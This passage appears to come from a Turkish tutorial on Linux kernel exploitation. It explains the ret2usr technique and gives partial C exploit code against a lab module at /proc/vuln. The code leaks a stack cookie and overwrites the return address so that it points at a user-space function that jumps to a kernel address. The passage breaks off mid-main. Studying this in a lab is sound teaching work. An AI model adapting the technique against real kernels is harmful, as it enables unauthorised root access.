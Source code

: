 # ret2usr
Root exploitimiz için popüler bir saldırı yöntemi olan `ret2usr`ı kullanıyor olacağız.

Bir önceki exploitimizde doğrudan stack'deki dönüş adresini kerneldeki bir fonksiyona 
işaret edicek şekilde ayarladık ve bu şekilde modülün akışını yönlendirmeyi başardık.

Ancak bu istediğimiz gibi kernelin akışını kontrol etmemizi sağlamıyor. İşte burda 
`ret2usr` yöntemi devreye giriyor.

Hatırlarsanız kernel'in tüm user-space belleğine erişimi var, o halde exploitimizin içinde 
olan bir fonksiyonun adresini dönüş adresi olarak ayarlıyarak kernel'in istediğimiz 
kodu çalıştırmasını sağlayabiliriz. Zaten metodun adı da burdan geliyor, `ret2usr` yani 
return-to-user, kerneli user-space'de olan bir adrese döndürüyoruz.

Hadi bunu bir örnek ile görelim:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

#define DEVICE      "/proc/vuln"

void call_cant_get_here(){
    // burda doğrudan assembly çalıştıracağız
    // unutmayın bu kod kernelde çalışcak, bu fonksiyona 
    // user-space'de olan çağrılar ekleyemeyiz
    __asm__(
    
    // normalde AT&T syntaxi olan syntaximizi 
    // daha rahat okunabilir olduğundan intel syntax'ine çekiyoruz
    ".intel_syntax noprefix;"

    // rax registerına movabs ile cant_get_here fonksiyonun adresini 
    // yüklüyoruz, movabs mov'dan farklı olarak rax'a 64 bit bir 
    // değer yüklüyor, bu da bizim 8 byte adresimiz için tam istediğimiz şey
    "movabs rax, 0xffffffff81094a50;" //cant_get_here

    // şimdi rax'a yüklediğimiz adrese atlayabiliriz
    "call rax;"

    // değiştirdiğimiz syntaxi eski haline geri döndürüyoruz 
    // bunun sebebi kodun geri kalanaın AT&T syntaxinde oluşturulucak olması
    ".att_syntax;"

    );
}

int main(){
    int fd = open(DEVICE, O_RDWR);

    unsigned long w[3];
    unsigned long r[5];
    
    read(fd, r, sizeof(r));
    for(int i = 0; i < sizeof(r)/8; i++){
        printf("Reading (%d): %lx\n", i, r[i]);
    }
    printf("Cookie leaked! %lx\n", r[4]);

    w[0] = 0; // local buffer 
    w[1] = r[4]; // stack cookie
    w[2] = (unsigned long)call_cant_get_here; // return address 

```